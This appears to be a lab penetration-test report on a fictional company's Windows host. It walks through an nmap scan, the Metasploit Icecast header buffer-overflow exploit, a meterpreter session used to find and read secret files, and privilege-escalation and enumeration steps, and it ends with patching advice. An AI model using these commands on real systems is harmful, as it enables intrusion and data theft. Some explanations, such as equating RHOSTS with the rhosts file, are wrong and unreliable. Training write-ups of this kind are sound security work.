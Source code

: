     GoodSecurity Penetration Test Report 

    Abdisalan-Firin@GoodSecurity.com

    DATE
    11/01/2021

 ### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploit two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.
       2.0 Findings

### Machine IP:
    192.168.0.20
### Hostname:
    MSEDGEWIN10
### Vulnerability Exploited:
    Exploit/windows/http/icecast_header

    Vulnerability Explanation:

The Vulnerability i found Icecast application running on 192.168.0.20 allows for a buffer overflow exploit and any attacker can remotely gain control of the victim’s system by overwriting the memory on the system utilizing the Icecast flaw, which writes past the end of a pointer array when receiving 32 HTTP headers. this will overwrite the saved instruction pointer and leave Icecast thinking one of the processor threads is still occupied by one of its methods; in reality, the running process is a malicious payload.

Some remote actions able to be executed are:

    File discovery
    Key logging 
    screen capture
    Privilege escalation to Administrator 
I also find this vulnerable to the following exploits:

    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

### Severity:

This exploit is very severe and Critical as it allows malicious actors to run any manor of arbitrary code on the host’s machine.

### Proof of Concept:

1. Perform a service and version scan using Nmap to determine which services are up and running: 
    nmap -sS -sV -O 192.168.0.20

nmap -sS it stands for TCP SYN port scan, where the -sV for is determine the version of the service running on port, and that the -O is the Remote OS detection using TCP/IP.
After scanning networks for vulnerabilities, we can execute the exploits that we know an organization is vulnerable to.

    Using nmap to scan the system to see any port open
 ![using nmap to scan the system](./Images/snep-1.PNG)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   
     searchsploit -t Icecast windows
<Result> (exploits/windows_x86/remote/16763.rb)

Now we’ll use a tool called SearchSploit to locally store a library of exploit information and the scripts used to execute the exploits.


    Icecast exploits
![icecast exploits](./Images/snap-2.PNG)


3. Start Metasploit and search for the Icecast module and load it for use.:
 
    >msfconsole.
    >search icecast.
    >use 0.

MSFconsole provides a command line interface to access and work with the Metasploit.
The Metasploit is a computer security that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. 

    starting metasploit and searching icecast
 ![RHOST setting](./Images/snap-x.PNG)
 
 ![Metasploits](./Images/snap-3.PNG)

 ![Metasploits](./Images/snap-y.PNG)

4. Set the `RHOST` to the target machine and run.

    set RHOSTS 192.168.0.20.
    run.

 Rhosts allows me to log in to a UNIX-based system from another computer on the same network.
 The rhosts file contains a list of hosts and user names that determines who can log in to a system remotely without a password

    Setting RHOST to IP adress
![RHOST setting](./Images/snap-4.PNG)


5. Search for the `secretfile.txt` on the target.

    meterpreter > search -f *secret*.
OR
    meterpreter > shell.

Meterpreter allows me to remotely take over the compromised system, having control of the file system, collect sensitive information such as credentials and secret files.
    
    The search of the secret 
![The search of secret file](./Images/snap-5.PNG)

![The search of secret file](./Images/snap-xy.PNG)

6. Search for the `recipe.txt` on the target and download the file:
    meterpreter > search -f *recipe*
    meterpreter > cd 'C:\Users/IEUser/Documents
    meterpreter > ls
    meterpreter > cat Drinks.recipe.txt
    meterpreter > cat user.secretfile.txt

    Search of the recipe
    ![search of the recipe](./Images/snap-6.PNG)
    
    ![search of the recipe](./Images/snap-f.PNG)

7. Use Meterpreter's local exploit suggester to find possible exploits.
    
    meterpreter> run post/multi/recon/local_exploit_suggestor

The system was also found to be vulnerable to the following exploits:
    
    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

    Using meterpreter for local exploit
   ![Using meterpreter for local exploit](./Images/snap-7.PNG)

8. Run a Meterpreter post script that enumerates all logged on users.
    
    run post/windows/gather/enum_logged_on_users
    
    
    Using meterpreter post script
  ![Using meterpreter post script](./Images/snap-8.PNG)

9. Running the sysinfo command
 
    system info
 ![sysinfo](./Images/snap-9.PNG)

 ![sysinfo](./Images/snap-a.PNG)
 
 ![sysinfo](./Images/snap-b.PNG)

### Overall Recommendations

Icecast exploit is old and the vulnerability can be fixed with a patch or Install the latest version of this and all other software.
Encrypt the files and folders that you want to keep a secret
Enable the windows firewall with rules to only explicitly allow traffic on needed ports.